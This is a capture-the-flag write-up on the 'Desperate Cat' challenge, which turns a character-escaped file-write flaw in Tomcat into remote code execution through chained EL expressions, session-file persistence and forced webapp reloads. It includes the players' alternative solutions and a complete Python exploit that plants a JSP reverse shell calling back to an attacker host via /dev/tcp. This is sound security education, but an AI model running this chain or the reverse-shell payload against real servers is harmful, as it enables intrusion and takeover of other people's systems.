






# RWCTF 4th Desperate Cat Writeup

Author: Voidfyoo of Chaitin Tech

Date: 2022/01/25


## Overview

In the Real World CTF 4th (also referred as RWCTF), I made a challenge named `Desperate Cat`, which examines the exploit skills of file write vulnerability in the Tocmat Web directory under strict conditions.

The inspiration for Desperate Cat came from the acutal scenario that my colleague encountered in a peneration testing. Due to the tight pace of the project, and there were other things to deal with, we did not solve this problem at the time. After that, when I was free enouth, I settled down to think again, and finally got it done, so I made it a Real World CTF challenge.

As a reader, if you have not participated in this Real World CTF 4th, but are interested in Java Web vulnerability exploits, then you may wish to read on. I believe that you can more or less gain some thoughts and inspirations from it.


## Challenge Begins

Desperate Cat and it's original system vulnerability scene is as follows (I basically copied the relevant code of the original system, and reproduced the scene as much as possible):

1. The server is Tomcat, we can write files in the Tomcat Web directory;
2. The suffix of the written file's name is controllable and not checkd;
3. The prefix of the written file's name is uncontrollable and will be replaced with a random string;
4. The directory of the written file can be specified, and if the file parent directory does not exist, it will be created recursively;
5. The content of the written file is partially controllable, and written in the form of string encoding (instead of byte stream you passed directly), and there is dirty data arround your controlled content;
6. The following special characters in the written file content are HTML-escaped:
   * `&` -> `&amp;`
   * `<` -> `&lt;`
   * `'` -> `&#39;`
   * `>` -> `&#39;`
   * `"` -> `&quot;`
   * `(` -> `&#40;`
   * `)` -> `&#41;`

So the question is how to get shell in such a scenario?


## Intractable character escape handling

It's not difficult to find that the tricky part of this problem is that too many important characters are escaped, and the most important two types of characters are angle brackets and parentheses.

If you just can't use angle brackets, we can easily solve it through the EL expressions (Expression Language) supported by Tomcat.

Since the EL specification stipulates that the packages under `java.lang.*` will be imported by default, you can directly take the Runtime class to execute the command:

```
${Runtime.getRuntime().exec(param.cmd)}
```

Of course, you can also call methods of other classes through Java reflection.

The parsing of EL does not depend on the code tag `<%...%>` of the JSP file, so angle brackets can be avoided. However, it is necessary to enable EL parsing support in web.xml to execute, but this is not a big problem. Since the 2.4 specification version of web.xml, EL has been supported by default.

If you just can't use parentheses, the problem is also simple, because the Java code compilation parser will recognize the Unicode form of encoding, so you can directly encode all characters in Unicode in the JSP code block:

```
<%\u0052\u0075\u006e\u0074\u0069\u006d\u0065\u002e\u0067\u0065\u0074\u0052\u0075\u006e\u0074\u0069\u006d\u0065\u0028\u0029\u002e\u0065\u0078\u0065\u0063\u0028\u0022\u0063\u0061\u006c\u0063\u0022\u0029\u003b%>
```

However, the problem now is that the angle brackets and parentheses can't be used, so what should we do?


## Expression Language Chain

Let me introduce my thoughts first. When I think about this problem, my idea is to seek a breakthrough from Tomcat's parsing and execution of JSP and EL:

1. Research if Tomcat JSP supports other syntax features similar to EL with dynamic execution capabilities;
2. Research if some special encoding is supported in the EL expression, and use the special encoding to encode the characters to be escaped to bypass;
3. Research if there may be a secondary parsing execution in the EL expression (similar to the vulnerability of the secondary rendering expression injection of the previous vulnerabilities  in Struts2);
4. Without using parentheses, try to obtain some important Tomcat object instances through the getting value and assignment features of EL expressions, and then modify their attributes to cause dangerous effects;

After a long time of trying, I finally successfully completed the exploit with the fourth method. Starting from the implicit object parsed in JSP EL, I completed the RCE by combining 4 EL expression chains!

### Modify the Session file storage path

Under the default configuration, when Tomcat shuts down the service, it will persist the data in the user session to the local in a serialized form, so that when Tomcat restarts next time, the previous session data can be restored from the locally stored session file, to avoid causing the user session invalid due to service restart before it expires.

The default path for session persistent storage files is SESSIONS.ser in the work application directory:



And by executing the following EL expression, you can modify the storage path of the Session file:

```
${pageContext.servletContext.classLoader.resources.context.manager.pathname=param.a}
```

Since using  `.` dot is equivalent to executing the getter method of the object, and `=` equal sign is equivalent to executing the setter method, this entire expression is equivalent to executing:

```
pageContext.getServletContext().getClassLoader().getResources().getContext().getManager().setPathname(request.getParameter("a"));
```

Then write data to the Session by executing the following expression:

```
${sessionScope[param.b]=param.c}
```

In this way, when Tomcat stops the service normally, it can write some content-controllable strings to a file in an arbitrary path (this part will not be filtered and escaped with special characters):

```
?a=/opt/tomcat/webapps/ROOT/session.jsp&b=voidfyoo&c=%3C%25out.println(123)%3B%25%3E
```

### Modify the Context reloadable attribute

Besides having Tomcat stop or restart the service, is there any other way to trigger session persistence?

In fact, there is. By consulting the official documentation, I found this passage:

> Whenever Apache Tomcat is shut down normally and restarted, or when an application reload is triggered, the standard Manager implementation will attempt to serialize all currently active sessions to a disk file located via the `pathname` attribute. All such saved sessions will then be deserialized and activated (assuming they have not expired in the mean time) when the application reload is completed.

Therefore, according to the official documentation, in addition to stopping or restarting the service, we can also try to make the deployed webapp reload to do so.


To make the deployed webapp reload, two conditions must be met:



1. Context reloadable is set to true（default false）；
2. The files in the `/WEB-INF/classes/` or `/WEB-INF/lib/` directory have changed.

Since Context reloadable is false by default, you can modify it dynamically by executing:

```
${pageContext.servletContext.classLoader.resources.context.reloadable=true}
```

It is equivalent to:

```
pageContext.getServletContext().getClassLoader().getResources().getContext().setReloadable(true);
```

The changes to the files in the `/WEB-INF/classes/` or `/WEB-INF/lib/` directory refer to any of the following:

* The content of the loaded class file under `/WEB-INF/classes/` has been modified;
* The content of the loaded jar file under `/WEB-INF/lib/` has been modified, or a new jar file has been added.

Since the file writing vulnerability in the scene can specify the directory itself, by writing a file with an arbitrary suffix named jar to `/WEB-INF/lib/`, even if the content cannot be parsed normally, the reloading will be triggering in the case of Context reloadable set to true.

Through Context reload, you can write the session data file to any path without restarting, and get the webshell.

### Modify the appBase directory

Has the problem been solved? Actually not yet.

Through the first two steps, when the Context is reloaded, although the malicious data in the Session we constructed will indeed be written to the local JSP, because the Jar file we wrote is illegal, the original application Context will fail to run. This leads to a direct 404 Not Found of the entire application webapp!

If the application webapp has been down, the written webshell has no effect, after all, it is no longer accessible.

Is there a way to fix it, of course! Before triggering the Context reload that will cause the website to crash, we can modify the entire Tomcat appBase directory by executing the EL expression:

```
${pageContext.servletContext.classLoader.resources.context.parent.appBase=param.d}
```

It is equivalent to:

```
pageContext.getServletContext().getClassLoader().getResources().getContext().getParent().setAppBase(request.getParameter("d"));
```

The appBase property represents all directories where webapps are stored, and its value defaults to `webapps`:



If we change its value to the system root directory `/` through the EL expression, a very magical thing will happen, that is, the entire system disk is mapped to Tomcat, and you can directly access the entire system file resources through Tomcat:



In this way, even if the original application fails with a 404 due to a failed context reload, other directories are still accessible. Just write the persistent storage file of the session to any other directory and getshell.

### Exploit

Finally, aggregate all the EL expressions:

```
${pageContext.servletContext.classLoader.resources.context.manager.pathname=param.a}
${sessionScope[param.b]=param.c}
${pageContext.servletContext.classLoader.resources.context.reloadable=true}
${pageContext.servletContext.classLoader.resources.context.parent.appBase=param.d}
```

And that's Desperate Cat intended solution exploit:

```python
#!/usr/bin/env python3

import sys
import time
import requests

PROXIES = None

if __name__ == '__main__':
    target_url = sys.argv[1]    # e.g. http://127.0.0.1:8080/
    reverse_shell_host = sys.argv[2]
    reverse_shell_port = sys.argv[3]

    el_payload = r"""${pageContext.servletContext.classLoader.resources.context.manager.pathname=param.a}
${sessionScope[param.b]=param.c}
${pageContext.servletContext.classLoader.resources.context.reloadable=true}
${pageContext.servletContext.classLoader.resources.context.parent.appBase=param.d}"""
    reverse_shell_jsp_payload = r"""<%Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", "sh -i >& /dev/tcp/""" + reverse_shell_host + "/" + reverse_shell_port + r""" 0>&1"});%>"""
    r = requests.post(url=f'{target_url}/export',
                      data={
                          'dir': '',
                          'filename': 'a.jsp',
                          'content': el_payload,
                      },
                      proxies=PROXIES)
    shell_path = r.text.strip().split('/')[-1]
    shell_url = f'{target_url}/export/{shell_path}'
    r2 = requests.post(url=shell_url,
                       data={
                           'a': '/tmp/session.jsp',
                           'b': 'voidfyoo',
                           'c': reverse_shell_jsp_payload,
                           'd': '/',
                       },
                       proxies=PROXIES)
    r3 = requests.post(url=f'{target_url}/export',
                       data={
                           'dir': './WEB-INF/lib/',
                           'filename': 'a.jar',
                           'content': 'a',
                       },
                       proxies=PROXIES)
    time.sleep(10)  # wait a while
    r4 = requests.get(url=f'{target_url}/tmp/session.jsp', proxies=PROXIES)
```


## ASCII ZIP Exploit

### Make ASCII ZIP Jar

Desperate Cat was finally solved by players from the two teams: WreckTheLine and Sauercloud. Unexpectedly, the core idea of the method they used was different from mine!

Since the program has escaped some important special characters, and there is dirty data before and after, the file content is written in the form of string encoding, so when I first thought about the problem, I took it for granted that writing the Jar file to the `/WEB-INF/lib/` directory and load it without errors is just impossible. But WreckTheLine and Sauercloud have proven that this is actually possible!

In fact, someone has studied how to use characters in the range of `[A-Za-z0-9]` to construct compressed data:

* https://github.com/molnarg/ascii-zip
* https://github.com/Arusekk/ascii-zip

WreckTheLine and Sauercloud refer to the relevant algorithms and construct a special Jar package with all bytes in the range of 0-127 and no escaped characters, so that even if there is dirty data arround, and the content is written in the string encoded format, Java will still consider it's a valid Jar package.

### Modify Context WatchedResource

After writing a valid Jar package, it is still necessary to consider the problem of reloading the application, so that the Jar package can be introduced. For this problem, the players of the WreckTheLine and Sauercloud teams did not use EL expressions, but modified the Tomcat Context WatchedResource to trigger:

> **WatchedResource** - The auto deployer will monitor the specified static resource of the web application for updates, and will reload the web application if it is updated. The content of this element must be a string.

In the Tomcat 9 environment, the default WatchedResource includes:

* `WEB-INF/web.xml`
* `WEB-INF/tomcat-web.xml`
* `${CATALINA_HOME}/conf/web.xml`

Tomcat will have background threads to monitor these file resources. When Tomcat enables autoDeploy (this value is true by default, that is, autoDeploy is enabled by default), once the lastModified time of these file resources is found to be modified, reload will also be triggered:



Since the application itself does not have a `WEB-INF/tomcat-web.xml` configuration file, by exploiting the file writing vulnerability of the application itself to create a `WEB-INF/tomcat-web.xml/` directory, the application can also be forced to trigger reload to load the previously written Jar package.

### The last step

At this point, for the players of the two teams WreckTheLine and Sauercloud, they have been able to write a valid Jar package and trigger a reload, which means that there is only one last step left.

The players of the Sauercloud team finally resorted to EL expressions. First construct the EL expression as follows:

```
${applicationScope[param.a]=param.b}
```

And then make the following request:

```
?a=org.apache.jasper.compiler.StringInterpreter&b=Pwn
```

It is equivalent to:

```
pageContext.getServletContext().setAttribute("org.apache.jasper.compiler.StringInterpreter", "Pwn");
```

Then, when accessing JSP for expression parsing, class loading will be triggered, the malicious class previously written in Jar will be loaded, and RCE will be completed:



The WreckTheLine players didn't use EL expressions from beginning to end, they put the JSP Webshell in the `META-INF/resources/` directory of the previously constructed Jar package, so that they can be accessed directly through the web request!


## Last words

This challenge is one of the most complex problems I have solved so far. Whether the process of trying to solve these problems by myself, or seeing other players' solutions after the ctf game, I have learned a lot from it. I also hope that the players who have participated in the competition or you as readers can be inspired by it :D


## References

- https://jakarta.ee/specifications/expression-language/4.0/jakarta-expression-language-spec-4.0.html

- https://docs.oracle.com/cd/E19316-01/819-3669/bnajh/index.html

- https://tomcat.apache.org/tomcat-8.5-doc/config/manager.html

- https://tomcat.apache.org/tomcat-7.0-doc/config/context.html

- https://users.cs.jmu.edu/buchhofp/forensics/formats/pkzip.html

- https://github.com/molnarg/ascii-zip

- https://github.com/Arusekk/ascii-zip

- https://tomcat.apache.org/tomcat-9.0-doc/config/context.html